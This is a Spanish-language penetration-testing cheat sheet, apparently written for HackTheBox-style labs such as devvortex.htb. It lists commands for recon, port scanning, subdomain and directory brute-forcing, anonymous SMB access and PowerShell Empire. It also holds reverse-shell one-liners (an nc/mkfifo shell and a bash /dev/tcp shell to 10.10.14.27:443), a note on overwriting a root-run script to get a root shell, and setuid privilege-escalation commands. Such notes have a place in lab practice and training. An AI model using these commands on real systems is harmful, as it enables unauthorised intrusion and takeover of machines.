 ### INFO-GATHER
whois [DOMINIO] > para la shell
www.who.is º > para consultar en la web.
host [DOMINO] > para ver direcciones IP
dnsrecon -d [WEB] > ver registros DNS

### SCAN TARGET
FASTSCAN: nmap -p- --open -sS -n -Pn --min-rate 5000 $target

### SCAN WEB
gobuster dns -d devvortex.htb -w /usr/share/dnsrecon/subdomains-top1mil.txt -t 200 --no-error >>> SCAN DNS
wfuzz -w /usr/share/dnsrecon/subdomains-top1mil-20000.txt -u http://devvortex.htb/ -H 'Host: FUZZ.devvortex.htb' -t 50 --hc 302 >> SCAN DNS
gobuster dir -u http://devvortex.htb/ -w /usr/share/dirb/wordlists/big.txt --no-error -t 200 >>> SCAN DIRS
### SMB
smbexec.py 'username:password'@IP > se conecta al objetivo
smbclient -L [HOST] -N > listar shares sin pasar contraseña
smbclient -N //[HOST]/[SHARE] > nos conectamos al share sin pasar contraseña

### EMPIRE POWERSHELL
powershell-empire server > inicia el servidor de empire
powershell-empire client > inicia el cliente

### REVSHELL
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f (DESDE LA PC VICTIMA, PARA ESTABILIZAR)
	echo '#!/bin/bash' > script
	echo 'sh -i >& /dev/tcp/10.10.14.27/443 0>&1' >> script   || SOBREESCRIBIR SCRIPT DE ROOT PARA GENERAR REVSHELL DE ROOT. PJ SUDO.

### LOOT/POSTEXPLO
printenv > imprime las variables de entorno


### PRIVESC 
python3 -c 'import os; os.setuid(0);os.system("/bin/sh")'
find / -perm -u=s -type f 2>/dev/null
find / -type -f -perm -04000 -ls 2>/dev/null

### AGREGAR PATH LINUX
PATH=/RUTA:$PATH
